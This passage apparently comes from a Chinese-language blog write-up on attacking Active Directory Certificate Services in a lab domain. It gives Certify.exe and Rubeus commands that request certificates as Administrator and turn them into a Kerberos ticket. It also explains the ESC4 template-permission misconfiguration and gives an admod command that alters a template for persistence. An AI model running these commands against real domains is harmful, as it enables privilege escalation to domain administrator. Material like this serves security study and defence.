 ![image-20240104160209178](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104160209178.png)

首先使用hacker注册一个TEST1的证书，并导出其包含私钥的证书。

```
Certify.exe request /ca:ECHANGE2013.loser.com\loser-DC-CA /template:TESTMP /altname:LOSER\Administrator
```

使用证书一代表administrator申请TEST2的证书

```
Certify.exe request /ca:"ECHANGE2013.loser.com\loser-DC-CA" /template:TEST2 /onbehalfof:LOSER\Administrator /enrollcert:cert.pfx
```

利用证书申请TGT

```
Rubeus.exe asktgt /user:Administrator /certificate:test2.pfx
```

![image-20240104161109991](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104161109991.png)

![image-20240104161159955](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104161159955.png)

成功导出hash

### 证书模板访问控制级别配置错误(ESC4)

证书模板是活动目录中的安全对象，对于域内的这些对象，通常都会关心对象的权限。如果攻击者对模板对象拥有 WriteProperty 权限，则其可以修改模板 AD 对象属性，则他们可以直接将错误配置推送到不易受攻击的模板，例如通过为允许域身份验证的模板在 `mspki-certificate-name-flag` 属性中启用 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志

通常我们关心以下权限

| 权限          | 描述                                       |
| ------------- | ------------------------------------------ |
| Owner         | 对象所有人，可以编辑任何属性               |
| Full Control  | 完全控制对象，可以编辑任何属性             |
| WriteOwner    | 允许委托人修改对象的安全描述符的所有者部分 |
| WriteDacl     | 可以修改访问控制                           |
| WriteProperty | 可以编辑任何属性                           |

一般这一点用来维持权限，一个普通域用户能写入模板的情况不常见

当我们接管整个域后，可以修改模板对象的属性

```
admod -b "CN=TESTMP,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=loser,DC=com" "msPKI-Certificate-Name-Flag::1"
```

![image-20240104205624548](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104205624548.png)

